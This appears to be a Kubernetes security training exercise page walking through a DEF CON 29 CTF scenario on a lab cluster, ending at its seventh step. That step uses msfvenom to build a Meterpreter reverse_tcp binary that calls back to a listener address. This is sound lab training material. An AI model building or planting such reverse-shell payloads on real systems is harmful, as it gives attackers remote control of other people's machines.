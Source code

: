 ```yaml
---
layout: exercise
exercise: 140
title: "Exercise: DEF CON 29 Kubernetes CTF"
tools: openssh-client kubectl curl jq metasploit-framework netcat-traditional
directories_to_sync: ssh-config

---
```


## Steps

1. Start up a fresh lxterminal by clicking the "sparrow" logo in the bottom-left corner of the screen, clicking run, typing `lxterminal` and hitting enter. Alternatively, use the hot key sequence below:

    ```
    <hold down Alt><hit F2>lxterminal<HIT the enter key>
    ```

2. Start your Kubernetes cluster - we will use this one for all Kubernetes exercises except for the Cloud Attacks, Peirates and Node Attacks:

    ```shell
    /sync/bin/suspend-all-vms.sh
    /sync/bin/start-bustakube.sh
    ```

3. SSH into the control plane node on the cluster:

    ```shell
    ssh -i /sync/bustakube-node-key root@bustakube-controlplane
    ```

4. Start the CTF scenario:

    ```shell
    /usr/share/bustakube/Scenario-DEFCONCTF29/stage-scenario.sh
    ```

5. Start a new terminal tab by hitting `Ctrl-Shift-t`.

    ```
    Hit Ctrl-Shift-t
    ```

6. Create a directory for this exercise and switch into it:

    ```shell
    mkdir -p ~/ctf29
    cd ~/ctf29
    ```

7. Create a Meterpreter binary for 64-bit x86 Linux:

    ```shell
    msfvenom -p linux/x64/meterpreter/reverse_tcp \
    LHOST=10.23.58.30 -f elf -o mrsbin
    ```
